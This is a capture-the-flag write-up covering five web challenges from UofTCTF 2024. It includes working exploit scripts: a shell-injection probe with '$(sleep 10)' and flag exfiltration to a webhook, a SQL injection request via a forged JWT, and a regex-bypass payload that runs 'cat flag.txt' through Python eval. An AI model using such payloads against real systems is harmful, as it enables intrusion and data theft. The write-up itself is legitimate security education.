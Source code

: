 ```yaml
---
title: "U of T CTF"
date: 2024-01-14 00:08:00 +0800
categories: [Writeups, Jeopardy-CTF]
tags: [web, ctf, sqli, ssti, python, idor, cmd-injection]
image:
  path: /banners/uoftctf.png
---
```


> Description : he University of Toronto is hosting its second inaugural Capture the Flag competition. It will be jeopardy-style, held online with categories such as Web, Pwn, Rev, Crypto, Misc, and more! There will be plenty of challenges for both beginner and experienced players. The team size is limited to 4 players per team. This competition is organized by UofTCTF, GDSC (UTM), and MCSS (UTM) and sponsored by AON, UofT Department of Computer Science, UofT Information Security and Enterprise Architecture, LetsDefend.io
{: .prompt-info }




| Name       | uoftctf                |
|------------|------------------------|
| URL        | [UofTCTF](https://play.uoftctf.org/), [Ctf-Time](https://ctftime.org/event/2219) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



## 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Solution

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

```bash
❯ echo 'dW9mdGN0ZntZMFVSIFBpdGNoIElTIDcwTyBIITlIfQ==' |base64 -d
uoftctf{Y0UR Pitch IS 70O H!9H}%  
```

## 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

## 3. No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


## 4. Guestbook - Hidden Flag

### Solution

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

## 5.  My First App - JWT / SSTI
### Solution
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
  PY:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0fe38719-200d-42f3-9ea6-93ac24841d1e)


For The Code : 
    [Github](https://github.com/ACHUX21/Writeups/blob/main/2024/UofTCTF/solve.py)

